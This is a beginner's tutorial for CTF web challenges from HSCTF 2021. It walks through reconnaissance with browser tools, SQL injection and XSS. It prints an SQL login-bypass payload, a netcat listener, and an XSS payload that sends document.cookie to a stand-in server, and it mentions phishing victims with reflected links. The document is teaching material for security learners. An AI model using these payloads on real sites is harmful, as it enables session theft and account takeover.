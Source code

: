 # HSCTF 2021 - Web tutorial

Author: Joakim Algrøy (jalgroy) **Disclaimer:** As always, only attack a system if you have permission to do so. Use what you learn with care.  
## Introduction

This guide is geared towards solving web challenges in CTFs, but similar techniques are used in real world penetration testing.
I'm going to explain how I approach a new web challenge. This is not necessarily the best way or the fastest, but I usually have
reasonable success using these tips, especially on the more beginner friendly challenges.

I'm only going to describe how to use the browser with it's built in tools to solve challenges, because that's (almost always) all you need for beginner challenges. Once you encounter something that seems hard or annying to do in the browser, google it! There is probably a tool to automate it. 

The steps laid out here is an approximation of my approach to web challenges in CTFs, but is in no way fixed and in reality it changes from situation to situation. If you don't know how to start however, it can be a useful guide!

## Step 1 - Be a user!

Once you have a URL, the first and obvious thing to do is to open it in the browser and look around!
This may seem obvious, but if you skip looking around and go straight to the next steps, you might
miss something obvious.

The goal in this step is to get an understanding of what the functionality of the site is, and what 
actions a user can perform. 
- What input fields and forms are there?
    - What happens when you fill them in and submit them?
- What links are there, and which other pages do they take you to?
- Think about what you would do to implement a website like this

## Step 2 - View source!

**How?**: CTRL+U, or Right click -> View source

What you're seeing here is the html content of the response from the server. Remember that this is not necessarily all the content of the current page, as it is very common these days to load content dynamically with javascript _after_ the first http response.

We are still mostly gathering information, and the source can give use some clues as to how the website works. Look at the following:

* Are there HTML comments? They look like this: `<!-- This is a comment -->`
    * Developers sometimes leave comments for themselves and forget to remove them before deployment. They can reveal useful information!
* Do you see any web frameworks mentioned?
    * For example: `<meta name="generator" content="WordPress 5.6.1" />` Tells you this page was built with WordPress version 5.6.1. Find out if there are known weaknesses in that version by googling "Wordpress 5.6.1 vulnerabilities" or just "Wordpress vulnerabilities". **In general: Google is key. No-one can keep track of every technology and it's weaknesses. See something interesting you don't recognize? Google it!**
* Look at the paths
    * Where is static content loaded from? For example if you see: `<img src="/assets/header.png">`, open /assets in the browser! Are you allowed to see the content of the directory?
    * Finding subdirectories and files with common names can be automated with tools like [dirbuster](https://tools.kali.org/web-applications/dirbuster) or [gobuster](https://github.com/OJ/gobuster). This should not be necessary in HSCTF 2021, but it's good to be aware of it.

More stuff can be found in the source, but it can be a bit tedious to read through. Let's move on to some more dynamic analysis for now.


## Step 3 - HTTP Requests! Featuring developer tools

The browser gods have given us an extremely useful tool. To unleash this power, press F12, CTRL+SHIFT+I or Right click -> Inspect element.

We're going to look at the Network tab. The network tab shows us HTTP requests and responses which is the communication between your browser and the web server. This is where I should mention that **I prefer Firefox over Chrome**. The developer tools are much more intuitive than in Chrome, and Firefox has a killer feature for CTFs called "Edit and resend". This alllows you to edit an HTTP request you already sent end resend it with the new values, and view the result in your browser. Most pro's are going to use a proxy instead, like [Burp Suite](https://portswigger.net/burp) or [ZAP](https://www.zaproxy.org/), but I find the firefox network tools can get you quite far in CTFs.

Okay, we've got the network tab open. Refresh the page and you should see one or more requests showing up. What are we looking for?

* Where are the requests going?
    * The first request should be a GET or POST to the page you're currently on
    * Which others are there?
        * Look at the type. CSS, JS, PNG, JPEG, SVG are not that interesting.
        * json and xml responses are usually from APIs, 
* Select a request and look at the headers
    * Is your browser sending cookies? (`Cookie:` header) If so, can you learn anythig from their value?
        * Cookies can be modified in the "Storage" tab of dev tools. Try to see if changing them changes the behaviour of the web page.
    * Is the server setting cookies? (`Set-Cookie:` header)
    * Is there an `Authorization` header?
        * Authorization headers are often base64 encoded. Google "base64 decoder" and see if they decode to anything interesting.
* If there is a form on the page, submit it with the network tab open, and find the POST request.
    * Look at the parameters of the request ("Request" tab). What happens if you change some of the values?
        * To modify a POST request, right click the request and choose "Edit and resend" (in Firefox).
        * Can you do something you're not supposed to by sending invalid parameters?

## Step 4 - People keep making the same mistakes: Common vulnerabilities

Ok, so know we have a good overview of how the website works, and we can start trying to lok for specific common vulnerabilities. In a lot of CTFs, you'll get a hint pointing you to a vulnerability, either in the name, description, or in the challenge itself. That means that step 4 can often be step 1, but in the real world you don't get hints like that, so you'll spend much more time on step 1-3.

For a list of common vulnerabilities, with descriptions of how they arise and how they can be fixed, check out [OWASP Top 10](https://owasp.org/www-project-top-ten/).

### SQL Injection

SQL is a language used to write to and read from SQL databases. It is, for example, used to check if a username/password combination is valid. SQL Injection is the practice of writing SQL syntax into an input field of a website, in order to modify the SQL query the server executes. Let's look at an example:

Here is a common SQL query to check if a user/password combination exists in the database

```
SELECT * FROM users WHERE username = 'admin' AND password = 'super_good_pw'
```

To run a query like that, the web service must insert the username and password you provide into the query. That can be done like so:

```
var query = "SELECT * FROM users WHERE username = '" + user + "' AND password = '" + pass + "'";
```

But, what if you set your username to be `' OR 1=1; -- `? Then, the query will look like this:

```
SELECT * FROM users WHERE username = '' OR 1=1; -- ' AND password = ''
```

And voila! Now, the query does not ask if there is a matching user/password combination, it simply asks: is 1=1? Because this is always true, the server will get a good response from the database, and will assume you entered a correct username and password. (Note, -- is syntax for a comment in SQL, we use it to ignore the rest of the query.)

More advanced stuff than `' OR 1=1; -- ` can be used to read out data from the database, or even change the contents. SQL Injection attacks can be automated with [Sqlmap](http://sqlmap.org/), but again, automated tools like that or not necessary for HSCTF 2021.


### XSS (Cross Site Scripting)

XSS is when you're able to add javascript code to an input field, and have it run in your or someon else's browser. Any time you see something you have written in an input field printed on the web page, there is a potential for an XSS.

There are two types of XSS: Stored and reflected. Stored is when your input is saved on the server and displayed on the web page permanently. Reflected is when the input is only displayed as a response to the HTTP request containing the input. Stored XSS is the more serious kind, but reflected can still be dangerous.

**Testing for XSS**

Once you've found an input field where the input is displayed on the page, the most common test is to enter something like `<script>alert('XSS')</script>`. If you see an alert with the text "XSS", you've found an XSS vulnerability! Sometimes developers try to write their own filters to stop XSS attacks, but that can be hard and it's easy to make mistakes. If you suspect there is a homebrewed XSS filter on the web page, check out OWASP's [XSS Filter Evasion Cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

**Stealing cookies with XSS**

One of the things you can do with an XSS vulnerability is to steal cookies from other users! Cookies tend to be used to keep users logged in, which means if you can steal such a cookie you can log in as the user you stole it from! 

Some cookies have the HttpOnly flag set, which makes them unreadable by javascript, and thus you can't steal them with XSS. As a develoer you should always use the HttpOnly flag if you do not strictly need access to the cookie in javascript.

A typical way to steal a cookie is using an HTTP request to a server you control. On that server you can run some kind of collector that logs the HTTP request. That could be a full web server, or it could just be a simple netcat listener (i.e. `nc -lnvp 80`). Then, we cold use javascript fetch to send the cookie with an HTTP request. The easiest way is to add the cookie to the URL, like so:

```
<script>fetch('http://my-server-url.com/' + document.cookie)</script>
```

If you have a stored XSS, enter the above and wait for users to visit that page. If you have a reflected XSS where the script is part of the URL (meaning the XSS is in a GET parameter), you can take the resulting URL and try to [phish](https://en.wikipedia.org/wiki/Phishing) a target you know is likely to be logged in on the website in question. In a CTF, there are sometimes automated scripts that will visit any links you submit, to emulate a user that can be phished.
